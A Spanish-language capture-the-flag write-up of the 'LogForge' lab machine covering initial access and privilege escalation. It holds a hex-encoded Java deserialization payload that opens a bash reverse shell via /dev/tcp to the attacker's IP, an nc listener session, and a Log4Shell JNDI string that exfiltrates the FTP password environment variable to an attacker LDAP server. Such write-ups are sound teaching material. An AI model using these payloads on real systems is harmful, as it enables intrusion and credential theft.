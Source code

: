 ```bash
D69203E26202F6465762F7463702F31302E31302E31362E372F34343320303E2631740004657865637571007E002F000000017671007E00407371007E0024737200116A6176612E6C
616E672E496E746567657212E2A0A4F781873802000149000576616C7565787200106A6176612E6C616E672E4E756D62657286AC951D0B94E08B020000787000000001737200116A
6176612E7574696C2E486173684D61700507DAC1C31660D103000246000A6C6F6164466163746F724900097468726573686F6C6478703F40000000000000770800000010000000007878
```

Session a la escucha con nc
```bash
┌──(root💀pro)-[/home/pro]
└─# nc -vlnp 443 
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.138] 40992
bash: cannot set terminal process group (787): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

-- Intrusion Completada -- Entramos como el User - Tomcat

# Escalada de Privilegios 

Procedemos a enumerar el servidor para ver si hay alguna cosita interesante a nivel de la misma.. 
Cuando hacemos el comando ` ps -aux ` para listar los comandos ejecutados a nivel de sistema encontramos:

```bash
root         981  0.0  0.0   7244  3360 ?        S    19:17   0:00 /usr/sbin/CRON -f
root         990  0.0  0.0   2608   604 ?        Ss   19:17   0:00 /bin/sh -c /root/run.sh
root         992  0.0  0.0   5648  3156 ?        S    19:17   0:00 /bin/bash /root/run.sh
root         993  0.3  1.8 3576972 76540 ?       Sl   19:17   0:01 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```
Identificamos que corre el servicio FTP internamente y que corre Java por detras, en el cual nos dan la imagen ftpServer-1.0-SNAPSHOP-all.jar en la raiz del equipo para analizar a bajo nivel que esta ocurriendo por detras, y vemos que se listan las variables de entorno `fpt_user y ftp_password `

Tal que podriamos intentar hacer una injeccion y recibir las variables de FTP atraves de la interceptacion del trafico con la herramienta `Wireshark` filtrando por `tcp.port == 1389` y haciendo un `Seguimiento al flujo de datos` para listar el `usuario ftp y su password`

Injeccion → Teniendo nuestro server con ldap montado podriamos probar a injecctar algo como esto para ver si podemos listar las variables nombradas anteriormente.

```bash 
${jndi:ldap://10.10.16.7:1389/${env:ftp_password}}	
```
```bash
tomcat@LogForge:/tmp$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.16.7:1389/${env:ftp_password}}
530 Not logged in
Login failed.
Remote system type is FTP.
```
Donde vemos que recibimos la password del Servicio FTP atraves de Wireshark en texto claro
